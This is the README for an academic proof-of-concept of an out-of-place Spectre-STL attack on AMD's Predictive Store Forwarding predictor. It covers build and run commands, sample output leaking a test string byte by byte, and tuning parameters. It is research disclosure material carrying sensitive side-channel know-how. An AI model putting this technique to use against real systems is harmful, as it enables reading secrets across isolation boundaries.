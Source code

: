 # Introduction

In this Proof-of-Concept (PoC), we introduce the utilization of PSFP (Predictive Store Forwarding Predictor) to construct a novel variant of the Spectre-STL (aka Spectre V4) Attack, referred to as out-of-place Spectre-STL.

Specifically, this PoC demonstrates that the PSFP can be effectively employed to trigger a transient window without relying on the branch predictor or a faulty load. In contrast to the conventional Spectre-STL Attack, where the training of the PSFP requires repeated execution of the same store-load instruction pair, we showcase that an aliasing store-load pair can also be used to train the PSFP effectively. This novel approach enhances our understanding of Spectre attacks and highlights the potential security implications associated with the PSFP.

## Note
AMD has released a [document](https://www.amd.com/system/files/documents/security-analysis-predictive-store-forwarding.pdf) on the security analysis of AMD Predictive Store Forwarding (PSF) and stated that "it is possible that a store/load pair which does have a dependency may alias in the predictor with another store/load pair which does not." As far as we know, we are the first academic group to uncover the inner workings of PSF and to discover the method of training PSFP using an aliased store-load pair. This research provides valuable insights into the behavior and training of PSFP, contributing to a deeper understanding of its vulnerabilities and potential mitigation strategies.

## Build

A C compiler is required. For example, we use gcc 9.4.0 with make 4.2.1. No specific kernel or package dependencies and installations are required. The executable file named `spectre-stl-ofp` can be built through a simple command:

```shell
make
```

## Run

```shell
./spectre-stl-ofp
```

Expected result is as follows:

```
Search offset of prime entry:
Find collision offset as 31711
Putting 'Leaky PSFP: An out-of-place Spectre-STL attack!' in memory, address 0x55da454ef008
Reading 47 bytes:
Reading at address = 0x55da454ef008... Success: 0x4C='L' score=3 
Reading at address = 0x55da454ef009... Success: 0x65='e' score=3 
Reading at address = 0x55da454ef00a... Success: 0x61='a' score=3 
Reading at address = 0x55da454ef00b... Success: 0x6B='k' score=3 
Reading at address = 0x55da454ef00c... Success: 0x79='y' score=7 (second best: 0x9E='?' score=1)
Reading at address = 0x55da454ef00d... Success: 0x20=' ' score=3 
Reading at address = 0x55da454ef00e... Success: 0x50='P' score=3 
Reading at address = 0x55da454ef00f... Success: 0x53='S' score=3 
Reading at address = 0x55da454ef010... Success: 0x46='F' score=3 
Reading at address = 0x55da454ef011... Success: 0x50='P' score=3 
Reading at address = 0x55da454ef012... Success: 0x3A=':' score=3 
Reading at address = 0x55da454ef013... Success: 0x20=' ' score=3 
Reading at address = 0x55da454ef014... Success: 0x41='A' score=3 
Reading at address = 0x55da454ef015... Success: 0x6E='n' score=3 
Reading at address = 0x55da454ef016... Success: 0x20=' ' score=3 
Reading at address = 0x55da454ef017... Success: 0x6F='o' score=3 
Reading at address = 0x55da454ef018... Success: 0x75='u' score=3 
Reading at address = 0x55da454ef019... Success: 0x74='t' score=3 
Reading at address = 0x55da454ef01a... Success: 0x2D='-' score=7 (second best: 0x63='c' score=1)
Reading at address = 0x55da454ef01b... Success: 0x6F='o' score=3 
Reading at address = 0x55da454ef01c... Success: 0x66='f' score=3 
Reading at address = 0x55da454ef01d... Success: 0x2D='-' score=3 
Reading at address = 0x55da454ef01e... Success: 0x70='p' score=3 
Reading at address = 0x55da454ef01f... Success: 0x6C='l' score=3 
Reading at address = 0x55da454ef020... Success: 0x61='a' score=3 
Reading at address = 0x55da454ef021... Success: 0x63='c' score=3 
Reading at address = 0x55da454ef022... Success: 0x65='e' score=3 
Reading at address = 0x55da454ef023... Success: 0x20=' ' score=3 
Reading at address = 0x55da454ef024... Success: 0x53='S' score=3 
Reading at address = 0x55da454ef025... Success: 0x70='p' score=3 
Reading at address = 0x55da454ef026... Success: 0x65='e' score=3 
Reading at address = 0x55da454ef027... Success: 0x63='c' score=3 
Reading at address = 0x55da454ef028... Success: 0x74='t' score=3 
Reading at address = 0x55da454ef029... Success: 0x72='r' score=3 
Reading at address = 0x55da454ef02a... Success: 0x65='e' score=3 
Reading at address = 0x55da454ef02b... Success: 0x2D='-' score=3 
Reading at address = 0x55da454ef02c... Success: 0x53='S' score=3 
Reading at address = 0x55da454ef02d... Success: 0x54='T' score=3 
Reading at address = 0x55da454ef02e... Success: 0x4C='L' score=3 
Reading at address = 0x55da454ef02f... Success: 0x20=' ' score=3 
Reading at address = 0x55da454ef030... Success: 0x61='a' score=3 
Reading at address = 0x55da454ef031... Success: 0x74='t' score=3 
Reading at address = 0x55da454ef032... Success: 0x74='t' score=3 
Reading at address = 0x55da454ef033... Success: 0x61='a' score=3 
Reading at address = 0x55da454ef034... Success: 0x63='c' score=3 
Reading at address = 0x55da454ef035... Success: 0x6B='k' score=3 
Reading at address = 0x55da454ef036... Success: 0x21='!' score=3
```

### Note

In the out-of-order Spectre-STL implementation, it can be more challenging to achieve successful results due to the intricate design of the access mechanism in PSFP. Specifically, both the store and load Instruction Physical Addresses (IPA) are utilized in calculating the hash tag, making it difficult to find an aliased store-load pair in some cases (which also indicates that PSFP is much safer than SSBP). When this occurs, the output will indicate the following:

```
Search offset of prime entry:
Cannot find target. 
Cannot find prime entry, please try again.
```

To address this issue, we recommend the following solutions:

- Attempt more iterations until a collision is found, increasing the chances of locating an aliased store-load pair. 
- Modify the `PG_NUM` macro in `config.h` to a larger size. After making this change, rebuild the program and try again.
- Set the process affinity by executing `taskset -c <cpu-id> ./spectre-stl-ng`.

## Configurable parameters

Some configurable parameters are listed in file `config.h`. The parameters are divided into 2 categories. After modifying some of the parameters, please rebuild the PoC:

```
make clean & make
```

### System parameters

System parameters relate to the microarchitecture design and CPU frequency. There are 2 configurable system parameters in this PoC.

#### TYPE_H_BOUND

This judgment threshold is used to determine whether a non-aliased store-load pair is predicted as aliasing or non-aliasing. If the store-load pair is predicted as non-aliasing, the execution time is shorter; otherwise, the execution time is longer. 

For example, on AMD Ryzen 9 5900X with the following CPU frequency configuration, a feasible `TYPE_H_BOUND` is 190 (146 vs 205+). 

```
CPU MHz:                            2200.000
CPU max MHz:                        3700.0000
CPU min MHz:                        2200.0000
```

#### CACHE_HIT_THRESHOLD

This judgment threshold is used to determine whether a load hits in the cache or not. If the load hits in the cache, the execution time is shorter; otherwise, the execution time is longer. A feasible `CACHE_HIT_THRESHOLD` is 230 in our experiment enviroment.

### Attack parameters

Attack parameters relate to the attack performance, including success rate and leakage speed. Six parameters are configurable in this PoC.

#### SECRET

A string that is placed in the victim space.

#### LEAK_LEN

The lenght of bytes that will be leaked, which is suggested to be less than the length of the secret string.

#### CACHE_ST

Encoding granularity for Flush+Reload. The larger size will result in a better resolution, but requires a larger attacker-availble memory space. For more information, please refer to Flush+Reload Attack.

#### TRY_FOR_LEAK

Try times for secret leakage, which is 100 by dedault.

### TRY_FOR_COLLISION

Try times for collision finding, which is 10 by dedault.

### PG_NUM

Size of the empty executable page for code sliding, which is 8 by dedault.